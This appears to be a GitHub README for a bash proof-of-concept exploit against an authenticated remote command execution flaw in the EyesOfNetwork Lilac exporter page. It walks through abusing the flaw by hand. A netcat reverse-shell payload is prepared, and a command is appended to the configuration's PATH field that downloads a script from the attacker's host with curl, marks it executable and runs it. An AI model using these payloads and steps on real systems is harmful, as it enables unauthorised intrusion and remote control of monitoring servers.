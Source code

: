 # LilacPathVUln
```
###############################################
#              (Authentified)                 #
#         Remote Commande Execution           #
#               EyesOfNetwork                 #
#                                             #
#      Impacted version * =/>  5.3.11         #
#               ...........                   #
#                                             #
#         Scripted on 05/22/2021              #
#              By ArianeBlow                  #
#                                             #
###############################################
```

The Eyes Of Network Lilac exporter configuration page contain a Remote Commande Execution vulnerability. 

The PoC's working fine, (sometime you must have to lunch the script twice ... It's juste a PoC in BASH right !

Can be abused manually :

Create a bash script for payload (exemple : nc -e /bin/sh LHOST LPORT) and start an http server in the same directory.

Go on EyesOfNetwork Lilac exporter config page : https://RHOST/lilac/export.php.

Create a new config and modify the "PATH" (at the end of the webpage) and put the commande afetr the original line like that for exemple : 
```
/srv/eyesofnetwork/nagios/bin/nagios -v /tmp/lilac-export-33/nagios.cfg && curl http://LHOST:LPORT/test.sh -o /tmp/lilac-export-2/test.sh && chmod +x /tmp/lilac-export-2/test.sh && cd /tmp/lilac-export-2/ && ./test.sh
```
Start your listener and lunch the export config.
Voila !
